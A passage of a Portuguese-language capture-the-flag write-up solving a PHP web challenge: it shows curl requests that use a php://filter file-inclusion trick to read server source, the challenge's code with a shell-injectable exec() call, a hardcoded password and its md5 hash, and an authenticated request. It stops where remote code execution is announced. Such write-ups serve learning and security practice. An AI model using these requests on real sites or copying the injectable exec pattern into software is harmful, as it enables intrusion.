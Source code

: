 Faço o seguinte request 

```shell
curl -s 'http://challenges.ctfd.io:30119/?page=php://filter/convert.base64-encode/resource=root/config'
```

E valido a hipótese! Conseguimos mesmo ler o código do server, obtendo o retorno em base64 e decodificando o mesmo :)
Leio também o código da própria página service, fazendo o request

```shell
curl -s 'http://challenges.ctfd.io:30119/?page=php://filter/convert.base64-encode/resource=service'
```

E aqui se encontra o código desta última

```php
<?php
ini_set('max_execution_time', 5);
include_once("./root/config.php");

if ($_COOKIE['password'] !== md5($password)) {
    setcookie('password', 'PASSWORD');
    echo "<!-- For debugging try parameter debug -->";
    die('Only authorized people can access this page.');
}

if (isset($_POST["debug"])) {
    echo "The Character Count is: " . exec('printf \'' . $_POST["debug"] . '\' | wc -c') . ".";
}
```

O tal parâmetro debug então, na verdade deveria ser usado via post. E nunca seria executado se o cookie password não fosse igual ao hash da variável $password, que
se encontra definida no nosso outro arquivo, o root/config.php

```php
<?php

$password = "w3'r3 h34d1n' f0r v3nu5 (v3nu5)";

// I think this is vulnerable, but still in dev
if(count(get_included_files()) == 1) {
    echo "Don't access this file directly!";
}
```

Tiro o hash md5 desse texto, que nos dá o valor `f2464cff8995243e54b0c7e37c02f878` e faço um novo request (POST) enviando ele no cookie `PASSWORD`
e enviando o parâmetro debug como 'a'

```shell
curl -L -X POST 'http://challenges.ctfd.io:30119/?page=service' -H 'Cookie: password=f2464cff8995243e54b0c7e37c02f878' -F 'debug="a"'
```

Boaa!! Obtemos um novo retorno `The Character Count is: 1`. Voltando ao código fonte novamente, percebemos que existe uma função exec também vulnerável 
a injeção de código shell, e aí sim temos um RCE!.
